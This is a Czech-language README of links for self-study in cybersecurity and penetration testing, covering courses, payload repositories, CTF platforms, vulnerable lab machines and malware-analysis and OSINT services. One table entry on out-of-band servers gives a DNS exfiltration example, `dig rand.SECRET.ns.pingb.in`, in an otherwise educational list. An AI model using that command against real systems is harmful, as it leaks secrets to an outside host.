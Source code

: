 # Rozcestník pro samostudium kybernetické bezpečnosti

Užitečné odkazy pro oblast kybernetické bezpečnosti, zejména penetračního testování.
Jako gitbook dostupné na [chovanecadam.gitbook.io/cybersecurity/](https://chovanecadam.gitbook.io/cybersecurity/),
gitový repozitář na [github.com/chovanecadam/cybersecurity](https://github.com/chovanecadam/cybersecurity).

Kromě odkazů sem budu přidávat i vlastní poznámky, ale to nejspíš jen sporadicky[.](https://youtu.be/dQw4w9WgXcQ)

## Interaktivní tutoriály a kurzy

* [PortsWigger Web Security Academy](https://portswigger.net/web-security)
* [Hacker 101](https://www.hacker101.com/)
* [Open Security Training](https://www.opensecuritytraining.info/)
* [Cybrary](https://www.cybrary.it/)

## OWASP

* [OWASP Top Ten Project](https://owasp.org/www-project-top-ten/)
* [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
* [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/)

## Toolkit

* [Kali Linux](https://www.kali.org/), [ParrotOS Security](https://www.parrotsec.org/)
* [Kali Tools](https://tools.kali.org/tools-listing)
* [CyberChef](https://gchq.github.io/CyberChef)

## GitHub goodies

* [SecLists](https://github.com/danielmiessler/SecLists)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [PenetrationTesting](https://github.com/wtsxDev/Penetration-Testing)

## Cheatsheets, návody, knihy

* [HackTricks](https://book.hacktricks.xyz/)
* [HackSplaining](https://www.hacksplaining.com/)
* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
* [GTFOBins](https://gtfobins.github.io/)

## Videa, konference, YouTube

* [defcon.org](https://www.youtube.com/user/DEFCONConference/playlists)
* [BlackHat](https://www.youtube.com/user/BlackHatOfficialYT)
* [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)
* [VbScrub](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)
* [SANS konference](https://www.sans.org/cyber-security-summit/archives/)
* [SANS webcasty](https://www.sans.org/webcasts/archive/2020)
* [Wild West Hacking Fest](https://www.youtube.com/channel/UCef0TWni8ghLcJphdmDBoxw/videos)
* [Bugcrowd](https://www.youtube.com/c/Bugcrowd/videos)
* [VirSecCon2020](https://www.youtube.com/watch?v=B3Udl86Zu20&t=8s)
* [InstallFest](https://www.youtube.com/channel/UCivNQFv0lsPN3kEy2wKPOhw)
* [Hack In The Box Security Conference](https://www.youtube.com/channel/UC0BJVNTIEbG8CLG-xVVWJnA)
* [Nahamsec](https://www.youtube.com/c/Nahamsec/videos)
* [HackTheBox](https://www.youtube.com/c/HackTheBox)
* [PortSwigger](https://www.youtube.com/c/PortSwiggerTV/videos)
* [John Hammond](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw)
* [Hacksplained](https://www.youtube.com/c/Hacksplained/videos)

## Podcasty

* [Malicious Life](https://malicious.life/)
* [Security Now](https://twit.tv/shows/security-now)
* [Risky Business](https://risky.biz/)
* [Darknet Diaries](https://darknetdiaries.com/)
* [CYBER](https://podcasts.apple.com/us/podcast/cyber/id1441708044)
* [The CyberWire Daily](https://thecyberwire.com/podcasts/daily-podcast)
* [Hacking Humans](https://thecyberwire.com/podcasts/hacking-humans)
* [MalwareTech Podcast](https://www.youtube.com/channel/UCLDnEn-TxejaDB8qm2AUhHQ)

## Offline virtuálky a sandboxy pro hackování

* [OWASP Juice Shop Project](https://owasp.org/www-project-juice-shop/)
* [Damn Vulnerable Web Application](https://github.com/ethicalhack3r/DVWA)
* [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)
* [Metasploitable 3](https://github.com/rapid7/metasploitable3)
* [WebGoat](https://github.com/WebGoat/WebGoat)
* [vulnhub.com](https://www.vulnhub.com/)
* [OWASP Mutillidae II](https://github.com/webpwnized/mutillidae)

## On-line cvičení a CTFs

* [Hack The Box](https://hackthebox.eu)
* [TryHackMe](https://tryhackme.com/)
* [SafeWeb.cz](https://www.safeweb.cz/)
* [HackEDU](https://www.hackedu.com/)
* [Hack This Site](https://hackthissite.org)
* [hackertest.net](https://hackertest.net)
* [root-me.org](https://root-me.org/?lang=en)
* [Secure Code Warrior](https://portal.securecodewarrior.com/)
* [ctftime.org](https://ctftime.org/)
* [thecatch.cz](https://www.thecatch.cz/)
* [attackdefense.com](https://attackdefense.com/)
* [237ctf](https://247ctf.com/)
* [CyberSecLabs](https://www.cyberseclabs.co.uk/)
* [Over The Wire](https://overthewire.org/)
* [defendtheweb.net](https://defendtheweb.net)

## Bug Bounty platformy

* [Hacker One](https://www.hackerone.com/)
* [BugCrowd](https://www.bugcrowd.com/)
* [Intigriti](https://www.intigriti.com/)

## Malware analysis

| název                                    | popis                                     |
| ---------------------------------------- | ----------------------------------------- |
| [VirusTotal](https://www.virustotal.com) | Analýza malwaru, hashe, URL, pcapu        |
| [AnyRun](https://app.any.run/)           | Interaktivní analýza malwaru              |
| [Triage](https://tria.ge/)               | Hybridní analýza malwaru                  |
| [VMRay](https://www.vmray.com)           | dynamická analýza malwaru, placená služba |
| [Hybrid Analysis](https://hybrid-analysis.com/) | dynamická analýza malwaru          |

## Network Forensics

| název                                    | popis                                    |
| ---------------------------------------- | ---------------------------------------- |
| [malware-traffic-analysis.net](https://www.malware-traffic-analysis.net) | IOCs, síťové záchyty, apod. |
| [PacketTotal](https://packettotal.com/)  | pcap analýza, docela pomalé GUI          |
| [A-Packets](https://apackets.com/)       | pcap analýza, graf sítě, export HTTP     |

## Temporary domény, url, emaily, OOB servery

| název                                   | popis                                                             |
| --------------------------------------- | ----------------------------------------------------------------- |
| [webhook.site](https://webhook.site/)   | asi nejlepší možnost, až 500 requestů                             |
| [pingb.in](http://pingb.in)             | data exiltration pomocí DNS lookup: `dig rand.SECRET.ns.pingb.in` |
| [RequestBin.net](http://requestbin.net) | veřejné URL, ukazuje HTTP hlavičky, POST parametry, GET parametry |

## OSINT - Open-source intelligence

| název                                               | popis              |
| --------------------------------------------------- | ------------------ |
| [passivedns](https://passivedns.mnemonic.no/)       | Passive DNS        |
| [macvendorlookup](https://www.macvendorlookup.com/) | MAC Lookup         | 
| [macvendors](https://macvendors.com/)               | MAC Lookup         |
| [NERD CESNET](https://nerd.cesnet.cz/nerd/ips/)     | reputační databáze |
| [AbuseIPDB](https://www.abuseipdb.com)              | reputační databáze |

## Blogy

* [CRYPTSUS](https://cryptsus.com/blog/)
